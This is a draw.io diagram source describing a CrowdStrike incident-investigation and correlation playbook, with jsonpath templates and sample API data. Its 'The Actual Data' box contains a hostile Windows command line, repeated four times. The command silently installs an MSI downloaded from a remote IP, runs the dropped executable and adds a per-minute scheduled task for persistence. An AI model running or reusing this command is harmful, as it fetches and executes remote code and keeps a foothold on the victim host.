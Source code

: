 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="875" dy="478" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="60" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="260" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="670" y="1420" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="460" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="860" y="1370" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1319" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1519" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="650" y="1390" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="730" y="1390" as="sourcePoint" />
            <mxPoint x="730" y="1320" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="640" y="1160" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="910" y="1520" as="sourcePoint" />
            <mxPoint x="920.86" y="1470" as="targetPoint" />
            <Array as="points">
              <mxPoint x="910" y="1490" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="815" y="1520" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1210" y="1630" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1320" y="1579.04" as="sourcePoint" />
            <mxPoint x="1380.04" y="1530" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="50" y="1090" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="1110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="220" width="5410" height="1000" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
